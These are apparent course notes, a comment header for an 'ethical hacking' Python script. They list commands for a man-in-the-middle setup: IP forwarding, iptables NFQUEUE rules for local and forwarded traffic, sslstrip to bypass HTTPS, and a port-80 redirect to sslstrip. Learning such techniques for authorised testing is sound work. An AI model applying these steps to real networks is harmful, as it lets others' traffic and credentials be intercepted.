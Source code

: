 # python_for_ethical_hacking_2021
# commands to put in command prompt:
# to allow packets to flow: echo 1 > /proc/sys/net/ipv4/ip_forward
# iptables for your own machine: iptables -I INPUT -j NFQUEUE —queue-num 0
# and then: iptables -I OUTPUT -j NFQUEUE —queue-num 0
# also need to use: iptables --flush | when switching between remote machine and your own
# iptables for remote machine: iptables -I FORWARD -j NFQUEUE —queue-num 0
# to enable my own html: service apache2 start
# to bypass https execute command: sslstrip
# iptables command for sslstrip (sslstrip's default port is 10000 so we are rerouting web packets, whose default port is 80 to sslstrip): iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
